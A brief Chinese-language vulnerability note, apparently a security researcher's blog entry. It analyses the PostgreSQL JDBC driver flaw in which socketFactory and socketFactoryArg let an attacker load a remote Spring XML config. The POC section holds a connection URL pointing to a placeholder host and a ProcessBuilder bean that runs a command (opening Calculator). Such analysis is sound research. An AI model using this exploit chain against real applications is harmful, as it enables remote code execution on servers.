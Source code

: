 # Postgresql

看到网上都放了exp了这里就简简单单分析一下

## 简单分析

在org.postgresql.util.ObjectFactory#instantiate可以初始化任意类，这里找到了org.springframework.context.support.ClassPathXmlApplicationContext，这个函数本来就是初始化spring配置的，这里可以解析远程xml配置文件实现RCE



参数作用，来自官网

```java
socketFactory = String

The provided value is a class name to use as the SocketFactory when establishing a socket connection. This may be used to create unix sockets instead of normal sockets. The class name specified by socketFactory must extend javax.net.SocketFactory and be available to the driver's classloader. This class must have a zero-argument constructor, a single-argument constructor taking a String argument, or a single-argument constructor taking a Properties argument. The Properties object will contain all the connection parameters. The String argument will have the value of the socketFactoryArg connection parameter.

socketFactoryArg (deprecated) = String

This value is an optional argument to the constructor of the socket factory class provided above.
```



## POC

```java
      DriverManager.getConnection("jdbc:postgresql://node1/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://xxx/exp.xml");
```

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://www.springframework.org/schema/beans
http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="pb" class="java.lang.ProcessBuilder">
  <constructor-arg>
    <list value-type="java.lang.String" >
       <value>open</value>
       <value>-na</value>
       <value>Calculator</value>
    </list>
  </constructor-arg>
  <property name="y4tacker" value="#{pb.start()}"/>
</bean>
</beans>
```

## 似乎还可以读文件

参考CVE-2019-12086，反正都是构造函数相关

## 参考链接

放两个链接即可很简单的

https://zhuanlan.zhihu.com/p/465057399

https://github.com/pgjdbc/pgjdbc/commit/f4d0ed69c0b3aae8531d83d6af4c57f22312c813

https://jdbc.postgresql.org/documentation/head/connect.html#connection-parameters

